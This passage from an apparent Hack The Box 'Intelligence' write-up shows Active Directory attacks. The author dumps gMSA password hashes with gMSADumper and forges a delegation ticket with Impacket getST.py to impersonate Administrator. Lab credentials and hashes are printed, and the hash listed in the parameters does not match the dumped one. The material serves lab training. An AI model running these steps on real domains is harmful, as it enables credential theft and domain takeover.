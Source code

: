 Only new thing was to have access over IPC$ default share so lets move on to bloodhound now →

![Untitled](Intelligence/Untitled%207.png)

Lets see the shortest path to domain admin →

![Untitled](Intelligence/Untitled%208.png)

Now lets abuse **ReadGMSAPassword** delegation **→**

SVC_INT$@INTELLIGENCE.HTB is a Group Managed Service Account. The group ITSUPPORT@INTELLIGENCE.HTB can retrieve the password for the GMSA SVC_INT$@INTELLIGENCE.HTB.

Group Managed Service Accounts are a special type of Active Directory object, where the password for that object is managed by and automatically changed by Domain Controllers on a set interval (check the `MSDS-ManagedPasswordInterval` attribute).

The intended use of a GMSA is to allow certain computer accounts to retrieve the password for the GMSA, then run local services as the GMSA. An attacker with control of an authorized principal may abuse that privilege to impersonate the GMSA.

I used [gMSADumper](https://github.com/micahvandeusen/gMSADumper) →

```bash
┌──(kali㉿kali)-[/opt/Tools/gMSADumper]
└─$ python3 gMSADumper.py -d intelligence.htb -u Ted.Graves -p 'Mr.Teddy'                     
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::e0dcda8d93bf71a6352ea7803c8f17f1
svc_int$:aes256-cts-hmac-sha1-96:fd6235dbfd8a560d17433b22022633ed7188588277cf4d174f6582daf2c5333f
svc_int$:aes128-cts-hmac-sha1-96:059ae234e725682d00c3c278b3cff01b
```
{: .nolineno}

I got the `svc_int` `ntlm hash` so lets proceed further and now I have **AllowedToDelegate** Delegation means I can have a silver ticket made so lets create it →

![Untitled](Intelligence/Untitled%209.png)

I will be using `getST.py` from impackets library from inbuild stored in kali machine so lets Impersonate Administrator here →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ /usr/share/doc/python3-impacket/examples/getST.py -spn www/dc.intelligence.htb -dc-ip 10.10.10.248 -impersonate Administrator intelligence.htb/svc_int -hashes :e0dcda8d93bf71a6352ea7803c8f17f1
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
{: .nolineno}

- `dc-ip 10.10.10.248` - domain controller IP
- `spn www/dc.intelligence.htb` - the SPN (Service Principle Name)
- `hashes :5e47bac787e5e1970cf9acdb5b316239` - the NTLM I collected earlier
- `impersonate administrator` - the user I want a ticket for
- `intelligence.htb/svc_int` - the account I’m running
